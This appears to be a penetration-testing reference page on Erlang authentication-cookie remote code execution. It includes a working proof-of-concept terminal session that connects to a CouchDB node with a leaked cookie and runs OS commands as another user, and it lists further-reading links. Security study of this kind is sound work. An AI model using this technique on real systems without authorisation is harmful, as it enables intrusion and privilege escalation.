 # Erlang

## Authentication Cookie RCE

If the authentication cookie for an Erlang node is leaked, then you can take advantage of this to achieve RCE.  Typically this will be via local port tcp/4369.  The following PoC connects to a local node with a cookie of cookieval, and then spawns a command on an adjacent node with the same cookie value.  If the adjacent node is run by `mainuser` then we achieve privilege escalation.

```
otheruser@booj:/$ export HOME=/tmp
export HOME=/tmp
otheruser@booj:/$ erl -sname booj -setcookie cookieval -remsh couchdb@localhost
<me booj -setcookie cookieval -remsh couchdb@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(couchdb@localhost).
net_adm:ping(couchdb@localhost).
pong
(booj@booj)2> spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(couchdb@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

### Further Reading

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/)

[https://www.broot.ca/erlang-remsh-is-dangerous](https://www.broot.ca/erlang-remsh-is-dangerous)

[http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html](http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html)

[https://github.com/msantos/spoofed](https://github.com/msantos/spoofed)

https://blog.voltone.net/post/4

https://blog.voltone.net/post/12

https://www.youtube.com/watch?v=42k70Y-yTYY

https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4%20-%20Don%20Bailey%20-%20Unauthorized%20Erlang.pdf





